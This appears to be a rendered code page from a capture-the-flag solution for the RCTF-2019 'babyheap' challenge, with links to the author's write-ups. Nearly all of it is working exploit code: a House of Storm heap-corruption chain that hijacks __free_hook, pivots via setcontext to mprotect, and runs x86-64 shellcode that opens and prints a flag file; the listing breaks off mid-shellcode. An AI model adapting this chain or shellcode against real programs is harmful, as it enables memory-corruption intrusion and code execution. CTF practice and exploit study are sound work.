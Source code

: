 ```python
add(0x78)#9
add(0x48)#11
add(0x4a9)#12
edit(10,p64(0)*7+p64(0x4a1)+p64(0)+p64(bk)+p64(0)+p64(bk_nextsize))#edit the head of LARGECHUNK
edit(11,p64(0)+p64(0x21)*7)
free(10)
edit(11,p64(0)+p64(0x4b1)+p64(0)+p64(aim-0x20))#edit the head & bk of UNSORTEDCHUNK
add(0x48)#10
#House of Storm


# setcontext 
magic=libc.sym['__free_hook']+0x8
top='''
mov rdx,0x1234000
mov al,9
mov rdi,rdx
jmp .+0x14
'''
shellcode='''
mov rsi,0x1000
mov dx,0x7
mov r10,0x22
syscall
mov rsi,rax
xchg r9,rax
mov rdi,rax
syscall
push 0x1234000
ret
'''
edit(10,asm(top).ljust(0x10,'\x00')+p64(base+0x47b75)+p64(magic-0x18)+asm(shellcode))
payload=p64(0x7ffff7b15e89-0x7ffff7a3b000+base)+p64(0x7ffff7a7d4d5-0x7ffff7a3b000+base)+p64(0)
payload=payload.ljust(0x28,'\x00')+p64(0xfffffffffffffff)+p64(0)
payload=payload.ljust(0x68,'\x00')+p64(magic&0xffffffffffff000)+p64(0x1000)
payload=payload.ljust(0x88,'\xff')+p64(0x7)
payload=payload.ljust(0xa0,'\x00')+p64(magic)+p64(libc.sym['mprotect'])
edit(12,payload)
free(12)
# setcontext 



# Show time
context.log_level='debug'
sh='''
mov rsp,0x1234400
mov rax,2
mov rdi,0x67616c662f2e
push rdi
mov rdi,rsp
mov rsi,0
mov rdx,0
syscall
mov rdi,rax
mov rax,0
mov rsi,0x1234500
mov rdx,0x100
syscall
mov rax,1
mov rdi,1
mov rsi,0x1234500
mov rdx,0x100
```

[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()
[3]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/babyheapp